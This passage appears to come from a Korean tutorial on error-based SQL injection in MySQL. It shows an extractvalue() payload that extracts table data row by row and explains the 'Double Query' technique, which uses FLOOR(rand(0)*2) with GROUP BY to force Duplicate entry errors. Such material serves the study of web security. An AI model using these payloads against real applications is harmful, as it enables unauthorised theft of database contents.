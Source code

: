 ```bash

# 데이터 추출
AND extractvalue(rand(),concat(0x3a,(SELECT concat(컬럼1,0x3a,컬럼2) FROM 데이터베이스명.테이블명 LIMIT 0,1)))-- 
```
위 `extractvalue()` 함수의 에러메시지는 단일 행으로 반환되므로 `LIMIT`를 사용하여 한번에 하나의 행만 출력될 수 있도록한다.
```bash
...LIMIT 0, 1)))--      (SQL 쿼리에서 반환된 레코드셋의 첫번째 행 반환)
...LIMIT 1, 1)))--      (SQL 쿼리에서 반환된 레코드셋의 두번째 행 반환) 
...LIMIT 2, 1)))--      (SQL 쿼리에서 반환된 레코드셋의 세번째 행 반환)
...LIMIT 3, 1)))--      (SQL 쿼리에서 반환된 레코드셋의 네번째 행 반환)
...생략...
```

### Double Query
GROUP BY를 통한 그룹 집계의 기준 컬럼에 `rand()` 함수가 사용된 경우 발생하는 Duplicate entry 오류를 활용한 기법으로 이 오류가 발생하는 이유에 대해서는 아직 명확하게 밝혀지지 않았으며 MySQL의 버그로 간주되기도 한다

그룹 기준 컬럼의 Duplicate entry 오류는 그룹별 집계를 위한 기준 컬럼이 중복될 때 발생하는 오류로, 일반적인 컬럼인 경우에는 잘 실행되지만 행이 3개 이상 존재하는 테이블에서는 `FLOOR(rand(0)*2)`를 기준 컬럼으로 하는 경우에는 `rand()` 함수가 그룹 집계 기준으로 사용하기에는 가변적으로 안정적이지 않아 오류를 출력함
```bash
SELECT FLOOR(rand(0)*2) 
FROM some-table;
```
이 쿼리를 행의 수가 충분히 많은 임의의 테이블에서 실행한다면 아래와 같이 테이블 행의 수 만큼 0 또는 1의 값이 반환된다
```bash
floor(rand(0)*2)
================
0 
1
1    <--- Duplicate entry 오류 유발
0
1
1
0
0
1
1
1
0
1
...
```
아래와 같이 `FLOOR(rand(0)*2)`를 그룹 집계의 기준 컬럽으로 설정 -> 그룹별 행의 수 집계를 위한 `count(*)` 집계 함수를 사용하여 쿼리를 실행하면 버그로 인해 위의 두번째 행과 세번째 행이 중복되므로 Duplicate entry 오류를 발생
```bash
SELECT FLOOR(rand(0)*2), COUNT(*) 
FROM some-table
GROUP BY FLOOR(rand(0)*2) ;

# 오류
SQL Error [1062] [23000]: (conn:113718) Duplicate entry '1' for key 'group_key'
```
